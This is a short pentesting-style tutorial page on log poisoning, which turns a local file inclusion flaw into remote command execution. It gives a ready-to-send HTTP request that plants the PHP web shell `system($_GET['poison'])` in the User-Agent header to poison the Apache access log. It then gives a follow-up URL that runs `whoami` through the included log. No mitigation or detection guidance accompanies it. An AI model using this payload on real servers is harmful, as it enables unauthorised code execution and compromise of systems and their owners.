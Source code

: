 # Log Poisoning
Log poisoning is a common technique used to gain a reverse shell from a LFI vulnerability. To make it work an attacker attempts to inject malicious input to the server log. The directory of the file should have read and execute permissions

Insert the following malicious code in the user agent field. The PHP command will allow us to execute system commands by parsing the input to a GET parameter called `poison`

```bash
GET /v1/signin.php?page=/var/log/apache2/access.log HTTP/1.1
Host: example.com
User-Agent: Mozilla <?php system($_GET['poison']); ?> Firefox
Accept: text/html
Connection: close
```

Forward the request and add your parameter to the link.

```text
http://target.com/v1/example.php?page=/var/log/apache2/access.log&poison=whoami
```